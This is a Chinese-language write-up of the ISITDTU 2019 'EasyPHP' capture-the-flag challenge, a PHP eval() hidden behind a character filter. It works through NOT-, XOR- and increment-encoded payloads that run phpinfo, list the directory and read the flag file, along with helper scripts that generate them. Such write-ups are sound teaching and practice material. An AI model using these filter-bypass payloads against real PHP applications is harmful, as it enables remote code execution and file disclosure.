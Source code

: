 # \[ISITDTU 2019]EasyPHP

## \[ISITDTU 2019]EasyPHP

## 考点

* 无字符代码执行

## wp

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

代码执行，最后一个if不允许使用的字符超过12个

然后输入黑名单如下

```
ASCII值0-32
数字0-9 ASCII是48-57
'"`$&.,|[{_defgops ASCII对应39,34,96,36,38,46,44,124,91,123,95,100,101,102,103,111,112,115
```

到这里想到的绕过方式是异或和取反，然后在返回头看一下PHP版本是7.3，那就可以用函数执行的特性结合取反

phpinfo取反为%8F%97%8F%96%91%99%90，PHP7函数执行`(~%8F%97%8F%96%91%99%90)();`，长度为10

看到disable\_functions

![](../.gitbook/assets/image.png)

但是有字符使用的限制，所以还是要考虑其他方式。以前p牛说过无字符getshell可以用自增、位运算和取反，再偷一波陆队的思路。

现在可以考虑一下自增。PHP在获取HTTP参数时默认是字符串，然后可以用`!`进行布尔类型转换，再用`@`忽略notice输出，就可以把`!!@a`转化为数字1，然后再用`chr()`转换拼接就可以构造任意函数，但是需要用`.`拼接

```
// phpinfo();
(chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a)))();
```

使用异或，如果用爆破的方法就会很慢，偷一波陆队的思路。先确定自己想执行的语句，比如phpinfo，然后定一个参考字符串，让phpinfo和它异或，就可以得到想要的输入，如果得到的结果不符合要求，再微调参考字符串

```
p:%8f^%ff
h:%97^%ff
i:%96^%ff
n:%91^%ff
f:%99^%ff
o:%90^%ff
```

结果是`%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff`，脚本如下：

```php
target = "phpinfo"
standard = 0xff

dicts = {}
for i in target:
    dicts[i] = hex(ord(i)^standard).replace('0x','%')

res = ''
for i in target:
    res = res+dicts[i]
print(res+'^'+"%ff"*len(target))
print(len(set(res+'^'+"%ff"*len(target))))
```

但是这里有个疑问，`%21^%4f`的结果是`n`，但是在测试的时候却不对

![](<../.gitbook/assets/image (18).png>)

加上引号就可以了

![](<../.gitbook/assets/image (31).png>)

用数字也是同样的道理，一开始一直报错，但是把数字用`trim`转换一下就可以了。然后用自增找到数字

![](<../.gitbook/assets/image (14).png>)

```
p:A^1
h:Y^1
i:X^1
n:Z^4
f:W^1
o:Z^5
```

结果是`AYAXZWZ^1111415`

```
(trim((!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)*((!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)*((!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)-(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)-!!%40a-!!%40a-!!%40a))%5e%40AYAXZWZ)();
```

这里如果要求字符种类最少，可以考虑使用%ff的方式，先生成语句，再去尝试找可以替换的字符。如下，共用了16个字符

```
print_r(scandir('.'))
(%8f%8d%96%91%8b%a0%8d^%ff%ff%ff%ff%ff%ff%ff)((%8c%9c%9e%91%9b%96%8d^%ff%ff%ff%ff%ff%ff%ff)((%d1^%ff)));
```

所以要找到可以替换的，即在内部可以互相异或出来的，目标代码用到的字符为`['n', 'p', 'c', 's', 'i', 'a', 't', 'd', 'r', '_', '.']`，写个脚本找一下

```python
s=['n', 'p', 'c', 's', 'i', 'a', 't',  'd', 'r', '_', '.']
for i in s:
    for j in s:
        for k in s:
            if (chr(ord(i)^ord(j)^ord(k)) in s):
                xorRes = i+'^'+j+'^'+k
                if len(set(xorRes)) == 4:
                    print(chr(ord(i)^ord(j)^ord(k))+'='+xorRes)
```

得到的结果对应如下

```
p %8f^%ff
r %8d^%ff
i %96^%ff    %9c^%ff^%9b^%91
n %91^%ff 
t %8b^%ff
_ %a0^%ff
s %8c^%ff    %9c^%ff^%9b^%8b
c %9c^%ff
a %9e^%ff    %8d^%ff^%9c^%8f
d %9b^%ff
. %d0^%ff
```

找一下就可以找到，原则先找必须存在的字符，比如`.`和`_`，那么`a,d,0`也必须存在，那么r就必须存在，同样的，对于字符c和d，在生成的URL编码中也有，所以c和d也必须存在，如果换掉，相当于没有做异或，对于n和i而言，哪个都可以，后续不牵扯到6和1，然后看t和s，他们也是哪个都可以，他们URL编码中的b和c都已经存在，最后是a和p，明显a含有的字符更多，要保留p

```
a=r^c^p
s=c^d^t 
i=c^d^n 
```

最后结果

```
p %8f^%ff
r %8d^%ff
i %9c^%ff^%9b^%91
n %91^%ff 
t %8b^%ff
_ %a0^%ff
s %9c^%ff^%9b^%8b
c %9c^%ff
a %8d^%ff^%9c^%8f
d %9b^%ff
. %d1^%ff
```

`print_r(scandir('.'))`

```
(%8f%8d%9c%91%8b%a0%8d^%ff%ff%ff%ff%ff%ff%ff^%ff%ff%9b%ff%ff%ff%ff^%ff%ff%91%ff%ff%ff%ff)((%9c%9c%8d%91%9b%9c%8d^%ff%ff%ff%ff%ff%ff%ff^%9b%ff%9c%ff%ff%9b%ff^%8b%ff%8f%ff%ff%91%ff)((%d1^%ff)));
```

![](<../.gitbook/assets/image (13).png>)

`readfile(end(scandir('.')))`

```
((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%9E%9B)^(%FF%99%FF)^(%FF%96%FF)^(%FF%FF%FF))(((%8D%9E%9E%9E%9B%96%8D)^(%9A%9B%FF%99%FF%FF%FF)^(%9B%99%FF%96%FF%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));
```

## 小结

1. [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
2. [无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

